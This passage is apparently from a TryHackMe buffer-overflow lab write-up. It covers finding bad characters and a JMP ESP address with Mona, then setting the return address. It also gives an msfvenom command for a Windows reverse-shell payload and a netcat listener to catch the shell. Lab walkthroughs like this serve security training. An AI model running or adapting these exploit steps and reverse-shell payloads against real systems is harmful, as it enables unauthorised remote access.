 ![5792de7cc1861f92bb50d7d596a32401.png](/assets/writeups/TryHackMe/BOFPrep/92ad0e178a52488cbb8131f1d5c37a28.png)

`!mona bytearray -b "\x00\x11\x40\x5f\xb8\xee"`

`!mona compare -f C:\mona\oscp\bytearray.bin -a 017CFA30` (Update the ESP address after each crash)

![0d6965704c28259558dd0dd352f5e571.png](/assets/writeups/TryHackMe/BOFPrep/3dfe0c17cab748fbbd4a848a9a6ae22d.png)

**Step 9** - Find a JMP point using Mona and update the RETN variable in the exploit script accordingly.

`!mona jmp -r esp -cpb "\x00\x11\x40\x5f\xb8\xee"`

![5f1b0a5b192ec6f30b3bed16b0b1c387.png](/assets/writeups/TryHackMe/BOFPrep/4067cd8d3e8f4249ab4b7cc32db2f634.png)

`retn = "\x03\x12\x50\x62"` (Little Endian)

**Step 10** - Generate an MSF reverse shell payload (excluding all bad characters identified) and replace the payload value in exploit.py, along with NOP (\x90) padding of at least 16 bytes. 

`msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 EXITFUNC=thread -b "\x00\x11\x40\x5f\xb8\xee" -f c`

**Step 11** - Open up a Netcat listener and run the exploit for reverse shell.

`nc -nvlp 4444`
